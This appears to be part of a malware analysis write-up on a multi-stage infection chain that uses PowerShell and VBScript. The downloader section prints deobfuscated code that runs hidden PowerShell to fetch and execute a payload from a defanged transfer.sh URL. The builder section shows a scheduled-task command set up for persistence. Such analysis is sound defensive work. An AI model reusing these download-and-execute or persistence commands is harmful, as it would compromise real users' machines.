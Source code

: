 ***

## Technical Analysis

### Downloader - any.txt

This file is used by the first stage to pull another PowerShell script from a malicious URL and continue the infection chain. The sample uses find and replace alternating capital letters to confuse someone who may be reading the file.

This stage of the sample can be deobfuscated to:

{% code overflow="wrap" %}
```
Set mw_wscript.shell= CreateObject("wscript.shell") mw_wscript.shell.Run(powershell.exe -wind hidden -exec bypass -noni iex(new-object net.webclient.downloadstring hxxps://transfer[.]sh/CdqqbMkRr9/Ic295.jpg , CONSOLE_HIDE, CMD_WAIT Set ali = Nothing
```
{% endcode %}

When this is run it will download the next stage from _hxxps://transfer\[.]sh/CdqqbMkRr9/Ic295.jpg_ and run it with it with PowerShell.

***

### Builder - Ic295.jpg

The purpose of this stage is to setup a staging area for the sample and to establish persistence on the victim's machine. When this stage is executed it will drop four files in the staging area and start running the first files of this stage. The first file that is executed in this stage is coinmarketcap.ps1. This file is responsible for creating the scheduled task on the host to setup persistence on the machine, if the final payload is terminated this scheduled task will re-run the installation process.&#x20;

The scheduled task is run with the command line:

{% code overflow="wrap" %}
```
'schtasks.exe' '/create' '/sc' 'minute' '/mo' 1 '/tn' ''coinmarketcap '/tr' (('C:\Users\Public\coinmarketcap\coinmarketcap.vbs'))
```
{% endcode %}

Once the scheduled task is executed it will then run coinmarketcap.vbs, this stage's responsibility is to run the dropped batch file 1.bat with Wscript.

<figure><img src="../../.gitbook/assets/Coinmarketcap.vbs.jpeg" alt=""><figcaption><p>contents of coinmarketcap.vbs</p></figcaption></figure>

